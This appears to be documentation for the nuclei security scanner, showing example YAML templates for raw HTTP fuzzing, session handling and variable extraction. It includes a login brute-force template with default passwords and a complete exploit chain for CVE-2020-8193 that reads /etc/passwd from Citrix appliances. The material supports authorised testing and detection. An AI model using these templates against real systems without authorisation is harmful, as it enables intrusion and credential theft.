 ### HTTP Intruder fuzzing

This template makes a defined POST request in RAW format along with in template defined payloads running `clusterbomb` intruder and checking for string match against response.


```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

# HTTP Intruder fuzzing with in template payload support. 

requests:

  - raw:
      - |
        POST /?username=§username§&paramb=§password§ HTTP/1.1
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5)
        Host: {{Hostname}}
        another_header: {{base64('§password§')}}
        Accept: */*
        body=test

    payloads:
      username:
        - admin

      password:
        - admin
        - guest
        - password
        - test
        - 12345
        - 123456

    attack: clusterbomb # Available: batteringram,pitchfork,clusterbomb

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

### Fuzzing multiple requests 

This template makes a defined POST request in RAW format along with wordlist based payloads running `clusterbomb` intruder and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

requests:

# HTTP Intruder fuzzing wordlist based payload support. 

  - raw:
      - |
        POST /?param_a=§param_a§&paramb=§param_b§ HTTP/1.1
        User-Agent: §param_a§
        Host: {{Hostname}}
        another_header: {{base64('§param_b§')}}
        Accept: */*

        admin=test

      - |
        DELETE / HTTP/1.1
        User-Agent: nuclei
        Host: {{Hostname}}

        {{sha256('§param_a§')}} 

      - |
        PUT / HTTP/1.1
        Host: {{Hostname}}

        {{html_escape('§param_a§')}} + {{hex_encode('§param_b§'))}}

    payloads:
      param_a: payloads/prams.txt
      param_b: payloads/paths.txt

    attack: clusterbomb # Available: batteringram,pitchfork,clusterbomb

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```


### Authenticated fuzzing

This template makes a subsequent HTTP requests with defined requests maintaining sessions between each requests and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}
        Cookie: session=12312321sdasdsa
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9

      - |
        POST /testing HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}
        Connection: close
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9

        testing=parameter

    cookie-reuse: true # Cookie-reuse maintain the session between all request like browser. 
    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

### Dynamic variable support

This template makes a subsequent HTTP requests maintaining sessions between each requests, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

requests:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```
